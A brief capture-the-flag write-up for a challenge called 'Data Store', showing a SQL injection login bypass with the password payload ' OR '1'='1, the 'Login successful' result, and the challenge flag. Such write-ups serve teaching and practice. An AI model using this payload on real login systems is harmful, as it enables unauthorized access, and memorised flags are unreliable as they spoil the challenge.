# Data Store
This task is for a simple sql injection.  
Let's login with the credentials
```
login : admin
password : ' OR '1'='1
Login successful
```
### cyctf{1_l0v3_$qli}

